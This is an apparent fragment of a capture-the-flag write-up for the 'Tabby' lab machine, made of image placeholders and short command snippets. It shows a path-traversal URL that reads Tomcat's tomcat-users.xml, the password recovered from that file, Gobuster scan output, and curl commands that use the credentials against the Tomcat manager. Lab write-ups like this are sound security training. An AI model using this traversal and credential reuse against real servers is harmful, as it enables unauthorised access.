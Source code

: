 ![[/assets/images/tabby13.png]]

view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
![[/assets/images/tabby14.png]]

```text
tomcat: $3cureP4s5w0rd123!
```

:8080/host-manager/html
![[/assets/images/tabby16.png]]




![[/assets/images/tabby4.png]]

http://10.10.10.194:8080/examples/jsp/snp/snoop.jsp
![[/assets/images/tabby5.png]]

# Gobuster
```sh

```

![[/assets/images/tabby3.png]]

```text

---- Scanning URL: http://10.10.10.194:8080/host-manager/ ----
+ http://10.10.10.194:8080/host-manager/html (CODE:401|SIZE:2044)                                                                            
+ http://10.10.10.194:8080/host-manager/images (CODE:302|SIZE:0)                                                                             
+ http://10.10.10.194:8080/host-manager/text (CODE:401|SIZE:2044)                                                                            
```

![[/assets/images/tabby17.png]]
https://tomcat.apache.org/tomcat-7.0-doc/host-manager-howto.html

![[/assets/images/tabby18.png]]

```sh
$ curl -u ${USERNAME}:${PASSWORD} http://10.10.10.194:8080/manager/text/list

```

![[/assets/images/tabby6.png]]

```sh
# Tomcat version identification
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```
